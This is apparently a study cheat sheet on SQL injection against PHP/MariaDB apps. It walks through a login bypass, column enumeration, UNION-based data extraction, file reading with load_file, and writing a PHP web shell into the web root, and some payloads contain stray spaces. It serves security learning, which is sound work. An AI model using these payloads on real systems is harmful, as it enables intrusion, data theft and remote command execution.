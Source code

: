 # SQL Injection
> Syntax for PHP/MariaDB


### Identifying
Need to find locations where data might pass through a database.
* Products on e-commerce site
* Message threads on a forum
* Authentication/login page


### Authentication Bypass
Default payload: `' or 1=1;#`

If this was sent in as the username, the sql query on the backend would change as the following:  
`select * from users where name = 'tom' or 1=1;#' and password = 'jones'; `     
The `#` will comment the rest of the query out.  
This query will return all rows where users with the name of tom   

Sometimes if there is more than one row, that might throw errors with the database, so it might be a good idea to add a LIMIT 1 to the query.  
`select * from users where name = 'tom' or 1=1 LIMIT 1;#`  


### Column number enumeration id based

**Source code:**  
`$sql = "SELECT id, name, text FROM feedback WHERE id=". $_GET['id']; `
  
**Enumeration:**   
`http://10.11.0.22/debug.php?id=1 order by 1`

Submit multiple queries by increasing order by number until there’s errors. Errors indicate maximum columns 

Once we know how many columns are in the table, we can use to extract more with `UNION`

`<ip>/xyz?id=1 union all select 1, 2, 3` This will return row 1 with 3 columns. Errors get thrown when we ask for things that do not exist  

The page now displays the position of the different columns so you will see 1,2,3 values in the different columns displayed  
  

### Extracting Data from the Database

`ip/xyz?id=1 union all select 1, 2, @@version` This will extract the database version and put it in where it previously put 3 for column 3


Now we can enumerate the information_schema and dig into the tables to retrieve values.  
`ip/xyz?id=1 union all select 1, 2, table_name from information_sc hema.tables`
  
Can enumerate for users in the users table  


### SQLi to Code Execution

`ip/xyz?id=1 union all select 1, 2, load_file('C:/Windows/System32 /drivers/etc/hosts')`

If we see error messages, we should know the location of the web root.

`ip/xyz?id=1 union all select 1, 2, "<?php echo shell_exec($_GET[' cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`
